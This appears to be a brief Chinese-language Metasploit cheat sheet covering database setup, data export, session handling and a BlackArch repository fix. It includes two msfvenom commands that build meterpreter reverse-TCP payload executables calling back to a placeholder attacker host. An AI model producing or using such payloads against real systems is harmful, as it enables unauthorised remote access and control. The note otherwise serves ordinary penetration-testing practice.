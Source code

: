 # Metasploit

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息会被记录到数据库中以便后续查询.  

### 导出

```sh
db_export -f xml ./msfdb.xml # 将当前 workspace 中的数据以 xml 格式导出到 ./msfdb.xml
```

!!! warning
    导出结果可能未空, 需要进行检查.  

## Msfvenom

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[ip] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[ip]                        -f elf -o ~/payload
```

## 后渗透测试

```sh
sessions         # 列出会话, -l
sessions [id]    # 打开会话, -i
sessions -u [id] # 将 shell 升级到 meterpreter
```

## 故障排除

msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

```
[blackarch]
SigLevel = Optional TrustAll
Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
```

## 拓展

- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
